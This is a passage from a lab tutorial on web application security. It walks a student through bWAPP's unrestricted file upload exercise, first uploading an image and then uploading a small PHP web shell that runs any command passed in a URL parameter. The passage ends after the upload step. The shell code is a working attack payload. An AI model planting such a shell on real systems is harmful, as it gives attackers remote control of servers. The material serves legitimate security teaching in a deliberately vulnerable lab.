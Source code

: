     - Select **here** to take you to the image that was just uploaded. This will take you to a page to display the image!

    - Point to the URL of this page: <http://192.168.1.100/bWAPP/images/sample_picture.jpg>. Specifically note the `.jpg` extension.
 
    - Return to the terminal and access the images directory, then show that the image we uploaded was added to the filesystem: 
 
      - `cd images`
 
      - `ls sample-image.jpg`
 
    - This step shows the intended functionality of the web application: to allow a user to upload image files to the web application's local filesystem, which can later be accessed and displayed by the user.
  
5. Next we'll upload a malicious PHP script. We will use a custom PHP script called `script.php`, which is designed to enable a malicious user to execute code remotely. 

    - This script looks as follows (note that you don't need to understand the syntax of this script just yet):

          <?php
          $command = $_GET['cmd'];
          echo system($command);
          ?>
 
    - Return to the desktop of your Vagrant machine and note that the script has already been created and added there.

6. Return to the file upload webpage. We will now upload this unintended malicious PHP script instead of an image.

   - Select Browse.

   - From Desktop, select `script.php`.

     - This should take you back to the file upload webpage and show the image selected.

   - Select Upload.

   - This will display the following image again:

      ![On the Unrestricted File Upload page of the bWAPP website, a red arrow points to the message, "The image has been uploaded here."](Images/LFI7.png) 
